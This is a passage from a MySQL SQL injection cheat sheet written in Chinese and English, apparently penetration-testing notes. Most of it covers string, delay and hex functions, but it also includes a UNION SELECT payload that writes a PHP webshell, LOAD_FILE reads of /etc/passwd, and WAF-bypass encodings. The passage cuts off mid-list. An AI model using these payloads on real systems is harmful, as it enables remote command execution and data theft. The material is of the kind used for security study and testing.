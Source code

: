 # SQL Injection


## MySQL

- 子字串：
    - `substr("abc",1,1) => 'a'`
    - `mid("abc", 1, 1)  => 'a'`
- Ascii function
    - `ascii('A') => 65 `
- Char function
    - `char(65) => 'a'`
- Concatenation
    - `CONCAT('a', 'b') => 'ab'`
        - 如果任何一欄為NULL，則返回NULL
    - `CONCAT_WS(分隔符, 字串1, 字串2...)`
        - `CONCAT_WS('@', 'gg', 'inin')` => `gg@inin`
- Cast function
    - `CAST('125e342.83' AS signed) => 125`
    - `CONVERT('23',SIGNED) => 23`
- Delay function
    - `sleep(5)`
    - `BENCHMARK(count, expr)`
- 空白字元
    - `09 0A 0B 0C 0D A0 20`
- File-read function
    - `LOAD_FILE('/etc/passwd')`
- File-write
    - `INTO DUMPFILE`
        - 適用binary (寫入同一行)
    - `INTO OUTFILE`
        - 適用一般文本 (有換行)
    - 寫webshell
        - 需知道可寫路徑
        - `UNION SELECT "<? system($_GET[1]);?>",2,3 INTO OUTFILE "/var/www/html/temp/shell.php"`
    - 權限
        - `SELECT file_priv FROM mysql.user`
    - secure-file-priv
        - 限制MySQL導入導出
        - e.g. `secure_file_priv=E:\`
            - 限制導入導出只能在E:\下
- IF語句
    - IF(condition,true-part,false-part)
    - `SELECT IF (1=1,'true','false')`
- Hex
    - `SELECT X'5061756c';  =>  paul`
    - `SELECT 0x5061756c; => paul`
    - `SELECT 0x5061756c+0 => 1348564332`
    - `SELECT load_file(0x2F6574632F706173737764);`
        - /etc/passwd
    - 可繞過一些WAF
        - e.g. 用在不能使用單引號時(`'` => `\'`)
         - CHAR()也可以達到類似效果
             - `'admin'` => `CHAR(97, 100, 109, 105, 110)`
- 註解：
    - `#`
    - `--`
    - `/**/`
    - `/*! 50001 select * from test */`
        - 可探測版本
        - e.g. `SELECT /*!32302 1/0, */ 1 FROM tablename`
    - `